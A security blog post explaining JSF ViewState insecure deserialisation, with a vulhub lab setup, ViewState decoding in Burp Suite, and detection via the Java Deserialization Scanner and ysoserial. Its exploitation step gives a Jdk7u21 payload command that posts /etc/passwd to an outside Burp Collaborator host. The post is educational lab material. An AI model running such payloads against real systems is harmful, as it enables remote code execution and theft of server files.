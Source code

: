 ```yaml
---
layout: post
title: Demystifying Insecure Deserialisation on JSF Application
date: 2021-05-08
summary: JSF Viewstate Deserialisation
categories: Web Security
tags: [Bugs, Write-Ups, Web Security]
---
```


Hi Everyone,

In this blog, we will see about one of the interesting vulnerability **Insecure Deserialisation on JSF Application** which occurs due to the **misconfigured viewstate**

<p align="center">
  <img src="/images/deserialisation/desc1.png">
</p>

<p align="center"> <strong>Difference between Serialization & Deserialization:</strong></p>

* Serialization is the process of taking an object and translating it into plaintext. This plaintext can then be encrypted or signed, as well as simply used the way it is.

* The **reverse** process is called **deserialization**, i.e. when the plaintext is converted back to an object.

<p align="center">
  <img src="/images/deserialisation/desc2.png">
</p>

<p align="center"> <strong>ViewState</strong></p>

* The purpose of “ViewState” is to memorize the state of the user, even after numerous HTTP queries (stateless protocol).
* Different Types of View-state
  1. .Net - ``___Viewstate``
  2. JSF - ``javax.faces.Viewstate``    

<p align="center"> <strong>Flow of JSF ViewState</strong></p>

* The "ViewState" of a page is by default, stored in a hidden form field in the web page named **javax.faces.ViewState**.
* ViewState starts with **H4sIAAAA**, which represent the Base64Gzip.

<p align="center">
  <img src="/images/deserialisation/desc3.png">
</p>

<p align="center">
  <img src="/images/deserialisation/desc4.png">
</p>

<p align="center"> <strong>Layers in JSF Viewstate</strong></p>

<p align="center">
  <img src="/images/deserialisation/desc5.png">
</p>

<p align="center"><strong>Environment Setup</strong></p>

Step 1: Create a Docker Compose file using the following command 

`docker-compose.yml`

```bash
version: '2'
services:
  web:
    image: vulhub/mojarra:2.1.28
    ports:
      - "8080:8080"
```

Step 2: Execute the following command to start a JSF application which using JDK7u21 and Mojarra 2.1.28

```bash
docker-compose up -d
```
<p align="center">
  <img src="/images/deserialisation/desc6.png">
</p>

Step 3: After the application is started, visit http://127.0.0.1:8080 to see the demo page.

<p align="center">
  <img src="/images/deserialisation/desc7.png">
</p>

<p align="center"><strong>Decoding JSF Viewstate</strong></p>

Step 1: Open the Demo URL http://127.0.0.1:8080 , give a sample input and intercept the request using Client-Side Proxy such as Burpsuite as shown below.

<p align="center">
  <img src="/images/deserialisation/desc8.png">
</p>

Step 2: In the request body, it can be observed that the application uses JSF Viewstate format.

<p align="center">
  <img src="/images/deserialisation/desc9.png">
</p>

Step 3: Select the **javax.faces.ViewState** values , right click & send it to **Decoder** as shown below.

<p align="center">
  <img src="/images/deserialisation/desc10.png">
</p>

Step 4: First do a **URL Decode** -> **Base64 Decode** -> **GZip Decode**.

<p align="center">
  <img src="/images/deserialisation/desc11.png">
</p>

Step 5: The final output gives some information about the java utils and components used in the application.

<p align="center">
  <img src="/images/deserialisation/desc12.png">
</p>

<p align="center"><strong>Burpsuite Extenders & Tools Configuration</strong></p>

* Install **Java Deserialization Scanner** from **Extenders** -> **BApp Store**.

<p align="center">
  <img src="/images/deserialisation/desc13.png">
</p>

* Navigate to the **Deserialization Scanner** -> **Configurations** and configure the ysoserial.

<p align="center">
  <img src="/images/deserialisation/desc14.png">
</p>

Note: ysoserial can be downloaded from <https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar>

<p align="center"><strong>Vulnerability Detection</strong></p>

Step 1: Intercept the request of the application and send the request to **DS - Manual Testing** .

<p align="center">
  <img src="/images/deserialisation/desc15.png">
</p>

Step 2: Select the **javax.faces.ViewState** values and **Set Insertion Point**.

<p align="center">
  <img src="/images/deserialisation/desc16.png">
</p>

Step 3: Choose Attack (Base64GZip) as shown below.

<p align="center">
  <img src="/images/deserialisation/desc17.png">
</p>

Step 4: If the viewstate is vulnerable, it will show **Potentially VULNERABLE!!!**.

<p align="center">
  <img src="/images/deserialisation/desc18.png">
</p>

Step 5: Now we got the payload type which is **Jdk7u21** 

<p align="center"><strong>Exploitation</strong></p>

NOTE: There are two ways to Exploit a JSF Viewstate Deserialisation

* Out-Of-Band 
* Reverse Shell

Step 1: Send the vulnerable request to **DS - Exploitation Tab**

Step 2: Using the following command to perform a **OOB Deserialisation** and Read Internal Files of the application

```bash
Jdk7u21 "wget --post-file /etc/passwd  http://xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx.burpcollaborator.net"
```

<p align="center">
  <img src="/images/deserialisation/desc19.png">
</p>

<p align="center">
  <img src="/images/deserialisation/desc20.png">
</p>

